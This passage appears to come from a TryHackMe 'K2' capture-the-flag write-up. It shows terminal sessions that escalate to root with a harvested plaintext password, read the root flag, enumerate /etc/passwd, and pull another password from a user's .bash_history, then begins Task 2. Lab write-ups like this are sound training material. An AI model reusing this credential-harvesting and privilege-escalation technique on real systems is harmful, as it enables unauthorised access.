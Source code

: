 


james@k2:/var/log/nginx$ su root
Password: RdzQ7MSKt)fNaz3!
root@k2:/var/log/nginx# 



james@k2:/var/log/nginx$ su root
Password: 
root@k2:/var/log/nginx# id
uid=0(root) gid=0(root) groups=0(root)
root@k2:/var/log/nginx# cd /root
root@k2:~# ls
root.txt  snap
root@k2:~# cat root.txt
THM{c6f684e3b1089cd75f205f93de9fe93d}
root@k2:~# 



root@k2:~# grep -i /bin/bash /etc/passwd
root:x:0:0:root:/root:/bin/bash
rose:x:1001:1001:Rose Bud:/home/rose:/bin/bash
james:x:1002:1002:James Bold:/home/james:/bin/bash
root@k2:~# 


root@k2:~# cd /home/rose
root@k2:/home/rose# ls -lah
total 40K
drwxr-xr-x 5 rose rose 4.0K Jun 13  2023 .
drwxr-xr-x 4 root root 4.0K Jun 13  2023 ..
-rw-r----- 1 rose rose   30 Mar 12  2024 .bash_history
-rw-r--r-- 1 rose rose  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 rose rose 3.7K Feb 25  2020 .bashrc
drwx------ 3 rose rose 4.0K Jun 13  2023 .cache
drwxrwxr-x 4 rose rose 4.0K Jun 13  2023 k2_site
drwx------ 4 rose rose 4.0K Jun 13  2023 .local
-rw-r--r-- 1 rose rose  807 Feb 25  2020 .profile
-rw-rw-r-- 1 rose rose   75 Jun 13  2023 .selected_editor
-rw------- 1 rose rose    0 Jun 19  2023 .viminfo



root@k2:/home/rose# cat .bash_history
sudo suvRMkaVgdfxhW!8
sudo su







<h2 align="center">Task 2 . Middle Camp</h2>
<p>The IT Team can't believe that you have made it past the first server. However, they feel confident that you won't make it much further.<br>

Use all of the information gathered from your previous findings in order to keep making your way to the top.<br>
